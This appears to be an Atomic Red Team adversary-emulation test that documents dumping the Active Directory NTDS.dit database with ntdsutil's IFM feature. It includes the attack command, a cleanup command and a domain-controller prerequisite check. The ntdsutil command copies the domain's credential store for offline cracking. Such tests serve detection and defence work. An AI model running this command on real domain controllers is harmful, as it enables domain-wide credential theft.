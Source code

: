 ## Atomic Test #3 - Dump Active Directory Database with NTDSUtil
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 2364e33d-ceab-4641-8468-bfb1d7cc2723





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | Path | C:&#92;Windows&#92;Temp&#92;ntds_T1003|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir #{output_folder}
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Cleanup Commands:
```cmd
rmdir /q /s #{output_folder} >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```

